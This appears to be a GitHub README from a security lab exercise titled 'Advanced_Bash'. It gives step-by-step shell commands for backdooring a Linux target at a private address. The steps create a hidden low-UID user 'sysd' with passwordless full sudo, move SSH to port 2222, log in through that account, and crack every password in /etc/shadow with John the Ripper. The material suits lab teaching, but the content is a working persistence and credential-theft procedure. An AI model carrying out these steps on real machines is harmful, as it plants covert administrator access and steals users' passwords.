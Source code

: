 # Advanced_Bash
Accomplishing the goal of maintaining access of a target machine by installing a backdoor.


## Step 1: Shadow People

1. Create a secret user named sysd. Make sure this user doesn't have a home folder created:

**adduser --system --no-create-home sysd**

![name-of-you-image](https://github.com/ldover29/Advanced_Bash/blob/a5ca22e065dbd3071b155b1fb557e9ff49bd6103/Images/Step%201%201.jpg)

2. Give your secret user a password:

**passwd sysd**

![name-of-you-image](https://github.com/ldover29/Advanced_Bash/blob/a5ca22e065dbd3071b155b1fb557e9ff49bd6103/Images/Step%201%202.jpg)

3. Give your secret user a system UID < 1000:

**usermod -u 50 sysd**

![name-of-you-image](https://github.com/ldover29/Advanced_Bash/blob/a5ca22e065dbd3071b155b1fb557e9ff49bd6103/Images/Step%201%203.jpg)

4. Give your secret user the same GID:

**usermod -u 50 -g 50 sysd**

![name-of-you-image](https://github.com/ldover29/Advanced_Bash/blob/fee97db46fe2f7011c9efab9fbdb761bf6883380/Images/Step%201%204.jpg)

5. Give your secret user full sudo access without the need for a password:

**sysd ALL=(ALL) NOPASSWD:ALL**

![name-of-you-image](https://github.com/ldover29/Advanced_Bash/blob/fee97db46fe2f7011c9efab9fbdb761bf6883380/Images/Step%201%205.jpg)

6. Test that sudo access works without your password:

**sudo -l**

![name-of-you-image](

**sudo adduser --system --no-create-home test**

![name-of-you-image](

## Step 2: Smooth Sailing

1. Edit the sshd_config file:

**Port 2222**

![name-of-you-image](

## Step 3: Testing Your Configuration Update

1. Restart the SSH service:

**systemctl reload sshd**

2. Exit the root account:

**exit**

3. SSH to the target machine using your sysd account and port 2222:

**ssh sysd@192.168.6.105 -p 2222**

![name-of-you-image](

4. Use sudo to switch to the root user:

**sudo su**

![name-of-you-image](

## Step 4: Crack All the Passwords

1. SSH back to the system using your sysd account and port 2222:

**ssh sysd@192.168.6.105 -p 2222**

2. Escalate your privileges to the root user. Use John to crack the entire /etc/shadow file:

**sudo su**
**john /etc/shadow**

![name-of-you-image](

Passwords:

![name-of-you-image](
